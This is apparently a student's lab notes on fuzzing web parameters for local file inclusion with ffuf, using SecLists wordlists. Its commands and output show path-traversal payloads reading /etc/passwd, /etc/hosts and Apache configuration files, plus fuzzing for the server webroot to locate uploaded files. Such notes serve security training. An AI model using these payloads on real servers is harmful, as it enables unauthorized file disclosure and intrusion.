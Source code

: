 
- **LFI Wordlists**
Once You Find a Parameter, You Can Test For *Common LFI Vulnerabilities*.
[LFI Wordlist](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt)

```shell
aaryan11x@htb[/htb]$ ffuf -w /usr/share/secLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?[paramter]=FUZZ' -fs 2287


..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../../../../../../../../etc/hosts [Status: 200, Size: 2461, Words: 636, Lines: 72]
...SNIP...
../../../../etc/passwd  [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../etc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
```


- **Server Webroot**
If we wanted to *locate a file we uploaded*, but we cannot reach its `/uploads` directory through relative paths (e.g. `../../uploads`). In such cases, we may need to figure out the *server webroot path* so that we can locate our uploaded files through absolute paths instead of relative paths.
To do so, we can fuzz for the `index.php` file through common webroot paths, which we can find in this [wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) or this [wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt). Depending on our LFI situation, we may need to add a *few back directories* (e.g. `../../../../`), and then add our `index.php` afterwords.

```shell
aaryan11x@htb[/htb]$ ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287

/var/www/html/          [Status: 200, Size: 0, Words: 1, Lines: 1]
```


- **Server Logs/Configurations**
If we wanted a more precise scan, we can use this [wordlist for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux) or this [wordlist for Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows) Rather Than *LFI-Jhaddix.txt*
```shell
aaryan11x@htb[/htb]$ ffuf -w ./LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287


/etc/apache2/mods-enabled/status.conf [Status: 200, Size: 3036, Words: 715, Lines: 94]
/etc/apache2/mods-enabled/alias.conf [Status: 200, Size: 3130, Words: 748, Lines: 89]
/etc/apache2/envvars    [Status: 200, Size: 4069, Words: 823, Lines: 112]
/etc/adduser.conf       [Status: 200, Size: 5315, Words: 1035, Lines: 153]
```


- **Multiple Fuzzing**
```sh
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ,/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZ2 -u "http://192.168.1.105/admin/admin.php?FUZZ=FUZ2" -ic -c
```